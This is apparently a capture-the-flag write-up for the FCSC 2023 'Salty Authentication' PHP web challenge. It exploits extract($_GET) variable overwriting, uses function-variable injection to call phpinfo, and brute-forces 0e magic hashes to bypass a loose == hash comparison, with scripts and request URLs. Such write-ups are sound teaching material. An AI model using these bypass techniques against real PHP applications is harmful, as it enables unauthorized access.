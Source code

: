 ```yaml
---
title: CTFs | FCSC2023 | Salty Authentication
author: Stillwolfing
date: 2023-05-05
categories: [CTFs, FCSC2023, Web]
tags: [CTF, FCSC, Web, magic hash, type juggling]
permalink: /CTFs/FCSC2023/web/salty_authentication
---
```


Here is the context:

![context](/assets/img/CTFs/FCSC2023/web/salty_authentication/context.png)

Here is the main page:

![main_page](/assets/img/CTFs/FCSC2023/web/salty_authentication/main_page.png)


We are presented the php code of the page:

```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The flag is included from flag.php.

### The flag

```php
if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    }
```

To reveal the flag, we need to have the hash of the secret equal to the hash of the password.

We can define some variables in the url thanks to the extract($_GET). So, we can define the $password variable.

First we have to pass this test:

```php
if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret)
```

We can see that $password has to be set. It has to be the same length as $secret. And it has to be different from $secret.

As $password has to be different from $secret, we cannot use the same string for both. So, we have to find a hash collision (different values, same hash).


$secret is the concatenation of the hostname and the salt which is a random string of 12 bytes.

## Hostname length

The first thing that came to my mind is to use ```extract($_GET)``` to rewrite the $salt variable. Unfortunately, we cannot rewrite the $secret variable as it is defined after the extract.

With this, we can pass the first test by finding the length of the hostname.

To do this, we rewrite the $salt variable as an empty string. Then, we add a character to the $password variable until we get the "Wrong password!" message.

```python

import requests
import time

password = ""
salt=""
counter = 0

while 1:
    counter += 1
    password += "1"
    print(counter)

    url = f"https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password={password}"

    r = requests.get(url)

    if "Wrong password!" in r.text:
        print(f"Hostname length: {counter}")
        break
    
    time.sleep(5)
```

Output:
![hostname_length](/assets/img/CTFs/FCSC2023/web/salty_authentication/hostname_length.png)

The hostname length is 12.

## Hostname

Now we need to find the hostname. What we can notice is this:

```php
else {
        echo('Wrong password!');
        exit($log_attack());
}
```

If the hashes are different, we get the "Wrong password!" message. And the $log_attack() function is called.

As log_attack is a variable, we can rewrite it with extract($_GET). So, we can define the $log_attack() function called when the hashes are different.

Let's call phpinfo to get the hostname:

url: https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=123456789012&log_attack=phpinfo

Output:
![phpinfo](/assets/img/CTFs/FCSC2023/web/salty_authentication/phpinfo.png)

We've got the hostname: 9be4a60f645f

## Type juggling

The == operator is used to compare the hashes. It's a weak comparison. It's a type juggling comparison.

With this operator, if a comparaison is made between a string and an integer, the string is converted to an integer.

So, if the string begins with "0e", it will be converted to 0. It's a magic hash!

[type juggling article](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

[magic hashes article](https://github.com/spaze/hashes)

## Magic hash

Let's try to find a magic hash for the secret. The secret has to begin with the hostname then we can use the salt to change the value.

Code to find a magic hash:

```php
<?php

$counter =0;
while(1){
    $salt = bin2hex(random_bytes(6));
    $secret = "9be4a60f645f" . $salt;
    $counter+=1;
    $hash = hash('fnv164',$secret);

    if ($hash==0) {
        echo ("secret: ".$secret."\n");
        echo ("salt: ".$salt."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![salt](/assets/img/CTFs/FCSC2023/web/salty_authentication/salt.png)

Now let's find a magic hash for the password with the same length:

```php
<?php

$counter =0;
while(1){
    $password = bin2hex(random_bytes(12));
    $counter+=1;
    $hash = hash('fnv164',$password);

    if ($hash==0) {
        echo ("password: ".$password."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![password](/assets/img/CTFs/FCSC2023/web/salty_authentication/password.png)

Ok so if put salt="70f9186fa35c" and password="8215d358c2d73169d5895016", the secret and the password will have the same length while having different values so we can pass the first test.

As both hashes begins with "0e", they will be converted to 0. So, the hashes will be equal and we will get the flag.

```bash
curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=70f9186fa35c&password=8215d358c2d73169d5895016"
```

We get the flag!
![flag](/assets/img/CTFs/FCSC2023/web/salty_authentication/flag.png)

